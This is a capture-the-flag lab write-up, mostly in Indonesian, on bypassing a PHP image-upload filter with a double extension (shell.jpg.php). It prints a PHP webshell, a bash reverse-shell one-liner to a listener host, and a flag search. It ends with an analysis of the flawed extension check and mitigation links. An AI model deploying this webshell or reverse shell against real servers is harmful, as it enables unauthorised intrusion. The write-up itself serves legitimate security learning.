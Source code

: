 # Day 2 |  The Elf Strikes Back

`Web Exploitation` `RCE`

---
## Learning Outcomes

- Understanding GET and POST parameters
- Bypass file upload 
- Vulnerability Analysis by me!

## Summary

1. Find a file upload point.
2. Try uploading some innocent files -- what does it accept? (Images, text files, PDFs, etc)
3. Find the directory containing your uploads.
4. Try to bypass any filters and upload a reverse shell.
5. Start a netcat listener to receive the shell
6. Navigate to the shell in your browser and receive a connection!

## Write up

Pada task kali ini, diberikan suatu ID = ODIzODI5MTNiYmYw.

ID tersebut digunakan untuk mengakses page berikut.

![216ec1cef8706fce53b9beb88299a35d.png](./_resources/43573e0df86d4193b3e3085d5cec04d9.png)

> Pengingat:
>- Metode POST request : data yang dikirim diikutkan body request (tidak tampak di URL, namun bisa di intercept)
>- Metode GET request : data yang dikirim terlihat pada URL berupa parameter
>   - Setiap nilai parameter dipisah dengan &


Caranya adalah menambahkan query (tanda tanya `?`) dengan parameter `id=value`.

http://10.10.43.11/?id=ODIzODI5MTNiYmYw

![c196cb699c437c800581393bd693bed8.png](./_resources/369e7c46d6a247a68e2c56a6520e78fc.png)

Dari sini upload file dapat dilakukan, dimana ekstensi yang diminta adalah jpeg, jpg, dan png.

![6fc7281b9f43b120870d2661a7f33cc4.png](./_resources/4e66d9a56752494a974331937c6adcc0.png)

Berikut adalah list common uploads directory  
- /uploads
- /images
- /media
- /resources

File yang diupload berada pada directori /uploads, selanjutnya adalah mempersiapkan shell/backdoor web pada direktori tersebut.

Disini saya menggunakan webshell yang merupakaan bawaan dari Kali Linux.

```
<MAGICBYTES>
<form action="" method="get">
Command: <input type="text" name="cmd" /><input type="submit" value="Exec" />
</form>
Output:<br />
<pre><?php passthru($_REQUEST['cmd'], $result); ?></pre>
```
> *magic bytes : https://en.wikipedia.org/wiki/List_of_file_signatures*

Magicbytes digunakan untuk mengelabui/membypass uploader, meyakinkan bahwa yang diupload adalah file jpeg bukan webshell/backdoor.  

![2b1f5c137288962d3e193c0bce5093cc.png](./_resources/0aac928f2ead427d9cb1805986af8448.png)

Namun hal tersebut tidak berhasil. Ternyata ketika dibalik menjadi shell.jpg.php, webshell berhasil di upload.

![759dccab6add96541caf6777c2e0ce7a.png](./_resources/f4b4e9df972a42648980fde77011e691.png)

Sekarang Remote Code Execution (RCE) dapat dilakukan

![8a1272d07209ebe2ffba128811fb2302.png](./_resources/c93d20e6d336472db6aa54a7534f2a09.png)

Berikutnya adalah mendapatkan reverse shell.

```
bash -i >& /dev/tcp/10.9.30.115/9000 0>&1
```
Sedikit penjelasan
- bash -i >& /dev/tcp/10.9.30.115/9000   
" Bash, berikan interactive shell melalui TCP, pada 10.9.30.115 di port 9000 "
- 0>&1
" Redirect stdin (input) ke stdout (ouput) ", maksudnya setiap perintah yang diketik dalam reverse shell tersebut, maka akan di ditampilkan kembali ke terminal

Contoh gambar  

```
bash-4.4$ pwd   <-- ini stdin  
pwd             <-- ini stdout
/var/www/html/uploads
```

![8525accc17e0b613db09cbaca471ce8e.png](./_resources/c6f980247a834023bb9cb5fd3b73424c.png)

Flag ditemukan pada /var/www/flag.txt

```
find / -type f 2>/dev/null | grep flag
```

![a6306e4a9eeaddec28e4128fd6c846b6.png](./_resources/63d77db614f4487590f9840055323679.png)


## Vulnerability Analysis & Mitigation

### Bypass upload filter 

/var/www/html/upload.php
```
<?php
        try{
                $data = json_decode(file_get_contents("php://input"), true);
        } catch (Exception $e) {
                die(json_encode(["res"=>"Error", "msg"=>"Invalid JSON"]));
        }

        if(!isset($data["mime"]) || !isset($data["name"]) || !isset($data["body"]) || !isset($data["id"])){
                die(json_encode(["res"=>"Error", "msg"=>"Invalid parameters"]));
        }


        $ids = explode("\n", file_get_contents("id-list"));
        if(!in_array($data["id"], $ids)){
                die(json_encode(["res"=>"Error", "msg"=>"Not authenticated"]));
        }


        $dir = "uploads/";
        $target = $dir . $data["name"];

        try{
                $image = base64_decode(explode(",", $data["body"])[1]);
        } catch (Exception $e){
                die(json_encode(["res"=>"Error","msg"=>"Invalid image format"]));
        }

        $ext  = trim(explode(".", $data["name"])[1], "\n");
        if(!$ext){
                die(json_encode(["res"=>"Error","msg"=>"No extension detected"]));
        } else if ($ext != "jpg" && $ext != "jpeg" && $ext != "png"){
                die(json_encode(["res"=>"Error","msg"=>"Invalid extension!"]));
        }

        $outfile = fopen($target, "w");
        fwrite($outfile, $image);
        fclose($outfile);

        echo json_encode(["res" => "Success", "msg" => "File received successfully!"]);

?>
```

Baris code berikut yang membuat shell yang di upload lolos.

````
$ext  = trim(explode(".", $data["name"])[1], "\n");
    if(!$ext){
        die(json_encode(["res"=>"Error","msg"=>"No extension detected"]));
    } else if ($ext != "jpg" && $ext != "jpeg" && $ext != "png"){
        die(json_encode(["res"=>"Error","msg"=>"Invalid extension!"]));
    }

````

Berikut adalah contoh data yang dikirim ketika melakukan file upload

![data.png](./_resources/data.png)

data = {"name":"shell.php", "id":"ODIzODI5MTNiYmYw", ...etc}

Sesampainya pada baris ini

```
$ext  = trim(explode(".", $data["name"])[1], "\n"); 
```
Nama shell.php dipecah/explode dengan titik sebagai pemisahnya menjadi

- shell <-- $data["name"][0] 
- php   <-- $data["name"][1] - diambil dan tidak lolos filter

Maka ketika filename diberi nama shell.jpg.php

- shell <-- $data["name"][0]
- jpg   <-- $data["name"][1] - diambil dan lolos filter
- php   <-- $data["name"][2] - tidak dianggap!

Berikut hasilnya 

![vuln.png](./_resources/vuln.png)

Contoh mitigasi 

https://stackoverflow.com/questions/14789206/if-statement-to-filter-file-extensions

### Remote Code Execution

Berikut adalah cara memitigasi agar file2 php pada direktori tertentu tidak dapat di eksekusi 

https://lxadm.com/Apache:_disabling_PHP_execution_in_selected_directories
http://docs.php.net/manual/en/apache.configuration.php#ini.engine
